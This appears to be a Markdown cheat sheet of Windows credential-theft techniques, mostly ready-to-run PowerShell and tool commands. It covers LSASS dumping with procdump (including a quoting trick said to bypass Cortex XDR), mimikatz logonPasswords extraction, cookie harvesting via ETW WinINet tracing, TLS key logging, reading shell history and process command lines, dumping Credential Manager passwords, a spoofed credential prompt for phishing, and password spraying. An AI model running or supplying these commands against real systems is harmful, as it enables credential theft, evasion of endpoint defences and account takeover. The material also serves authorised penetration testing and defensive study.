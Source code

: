 # Windows 
---
# Navigation
1. **[Process memory](#Process%20memory)**
	- [1- Procdump exe](#1-%20Procdump%20exe)
	- [2- Mimikittenz Not working on windows 10](#2-%20Mimikittenz%20Not%20working%20on%20windows%2010)
	- [3- mimikatz](#3-%20mimikatz)
2. **[Abusing logging tracing](#Abusing%20logging%20tracing)**
	- [1- Tracing the WinINet provider](#1-%20Tracing%20the%20WinINet%20provider)
	- [2- Decrypting TLS traffic using TLS key logging Not working on latest firefox and chrome](#2-%20Decrypting%20TLS%20traffic%20using%20TLS%20key%20logging%20Not%20working%20on%20latest%20firefox%20and%20chrome)
	- [3- Peeking at shell command-line history files](#3-%20Peeking%20at%20shell%20command-line%20history%20files)
	- [4- Command line arguments](#4-%20Command%20line%20arguments)
3. **[Windows Credential Manager](#Windows%20Credential%20Manager)**
4. **[Phishing and credential dialog spoofing](#Phishing%20and%20credential%20dialog%20spoofing)**
5. **[Password spray attacks](#Password%20spray%20attacks)**
---
 # Process memory:
 ## 1- Procdump.exe
 ```powershell
procdump.exe -accepteula -ma <PID> /temp/proc.dmp
 
#Additionally, depending on the EDR, it may be sufficient to simply add quotations around the process name (This bypasses Cortex XDR for example):
procdump.exe -accepteula -ma “lsass.exe” out.dmp

 ```
To dump all processes:
```powershell
#make sure to install procdump from Systeinternals and have it in your path
Get-Process | % {procdump.exe -ma $_.Id }

gci *.dmp | % { strings.exe -n 17 $_.Name | Select-String "password=" | Out-File ($_.Name+".txt")}
```
> **Important Note:**
> It's recommended to dump a single process at a time for investigation because dumping all processes takes alot of time and could trigger detections especially when working with LSASS.
> 
> **Download:** https://download.sysinternals.com/files/SysinternalsSuite.zip

 ## 2- Mimikittenz (Not working on windows 10)
 Rather than writing files to disk, Mimikittenz will read the memory of processes using the Win32 API  `ReadProcessMemory`  to search for a set of common credentials.  `Mimikittenz`  can easily be customized to search for additional regular expressions in process memory.
```powershell
Invoke-Mimikittenz
```
> **Download:** https://github.com/orlyjamie/mimikittenz

 ## 3- mimikatz
 ```powershell
sekurlsa::minidump lsass.DMP
log lsass.txt
sekurlsa::logonPasswords
 ```
 
 ---
 # Abusing logging & tracing:
 For debugging and monitoring purposes, applications and services emit logs and traces. This enables ***privileged*** users on the machine to get more insights into the inner workings of an application during runtime. Windows has a powerful tracing infrastructure called **`Event Tracing for Windows (ETW)`**
 There are tools out of the box in Windows to interact with ETW, and they allow us to start traces, collect data, and stop them, such as **`wevtutil`** and **`logman`** .
-  **`logman`** : Allows us to manage event tracing sessions.
 Run the following command to see what providers are available:
 ```powershell
 logman query providers
 ```
 
## 1- Tracing the WinINet provider
The Windows Internet (WinINet) application programming interface (API) enables your application to interact with FTP and HTTP protocols to access Internet resources. it also can be used to inspect TLS traffic.
1. **Launch a tracing session with logman as an Administrator:**
```powershell
logman start WinInetSession -p "Microsoft-Windows- WinInet" -o WinInetTraceSession.evt -ets
```
2. **Now tracing events are now written to the provided evt file**
3. **Searching event file to get some juicy info such as cookies:**
```powershell
# The following is just an example, consider knowing the cookie header for what you are interested in..
.\strings.exe -nobanner -n 8 .\WinInetTraceSession.evt | Select-String "Set-Cookie: "
```
4- If you'd like to view the binary file in Event Viewer, you can do that too. Just launch **`eventvwr.exe`** and open the file 

You can convert the event file into a text file:
```powershell
# Converting into text file
wevtutil qe WinInetTraceSession.evt /lf:True /f:Text > WinInetTrace.log
```
> **Important Note:**
> Microsoft Edge & Internet Explorer use this provider, so in case of other browsers, you will have to know their provider or another tracing technique.

## 2- Decrypting TLS traffic using TLS key logging (Not working on latest firefox and chrome)
In order to decrypt TLS traffic, TLS key logging can be leveraged, which is a feature that will write TLS sessions keys to a user-defined location. The location can be specified via the **SSLKEYLOGFILE** environment.
```powershell
[Environment]::SetEnvironmentVariable("SSLKEYLOGFILE ","c:\temp\ssl.keylog","MACHINE")
# Verifying
 [Environment]::GetEnvironmentVariable("SSLKEYLOGFILE ","MACHINE")
```
> **Note:**  The target environment variable is  **`Machine`** , then the environment variable is stored in the HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Session Manager\Environment key of the local computer's registry. It is also copied to all instances of File Explorer. The environment variable is then inherited by any new processes that are launched from File Explorer.

- **Now lets capture network traffic**
```powershell
netsh trace start capture=yes tracefile=c:\temp\tracing.etl
# Stop
netsh trace stop
```
- **use  `Microsoft Message Analyzer`   to convert the .etl file into a .cap file that Wireshark can process**
- **Finally analyze with wireshark**

## 3- Peeking at shell command-line history files
- Get the history file location
```powershell
(Get-PSReadLineOption).HistorySavePath
```
## 4- Command line arguments
- Using  **`WmiObject`**
```powershell
Get-WmiObject Win32_Process | Select-Object Name, CommandLine
```
- Using  **`wmic.exe`** (wmic will be removed in the future)
```powershell
# Removing spaces will cause an error
wmic process get name,processid,commandline
```
---
#  Windows Credential Manager
Windows Credential Manager is used to store credentials. It is used by some browsers (not Chrome or Firefox, though).
- Retrieve saved web logins ( [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1))
```powershell
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]

$VaultObj = new-object Windows.Security.Credentials.PasswordVault

$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
```
> **More ways to abuse windows cred. manager using mimikatz:** 
> https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials

---
# Phishing and credential dialog spoofing
- Spoofed dialog box
```powershell
 $creds = Get-Credential -UserName $env:USERNAME -Message "Cortana wants setup a reminder and needs your permission"
```

---
# Password spray attacks
- Determine the password policy to avoid locking accounts
```powershell
# Using crackmapexec
crackmap exec [options..] --pass-pol
# Powershell
Get-ADDefaultDomainPasswordPolicy
Get-ADUserResultantPasswordPolicy
```
- Password spraying
	- [Sharpspray](https://github.com/iomoath/SharpSpray) 
	- [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)